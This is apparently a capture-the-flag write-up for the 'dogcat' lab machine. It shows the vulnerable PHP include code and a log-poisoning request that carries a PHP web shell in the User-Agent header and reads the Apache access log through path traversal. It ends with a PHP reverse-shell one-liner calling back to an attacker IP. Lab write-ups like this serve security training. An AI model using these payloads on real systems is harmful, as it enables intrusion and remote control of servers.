



#

## Foothold
Bypass the filter with `PayLoadsAllTheThings`
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)
We get the `dog.php` and `cat.php`. Tried to get the `index.php`

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
We noticed that the `ext` variable is default `.php`. But we can set it.
Try to get `/etc/passwd`


## LFI

i am using `seclist` with `LFI` for `Linux`.

A lot of files, we filter the errors one.


Well. we can access the apache2 log.


- Flag1
```burp
GET /?view=dog../../../../../../var/log/apache2/access.log&cmd=cat%20flag.php&ext= HTTP/1.1

Host: 10.10.191.127

User-Agent: <?php system($_GET['cmd']); ?>

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://10.10.191.127/

Upgrade-Insecure-Requests: 1
```


php -r '$sock=fsockopen("10.17.7.26", 1234);exec("/bin/bash -i <&3 >&3 2>&3");'
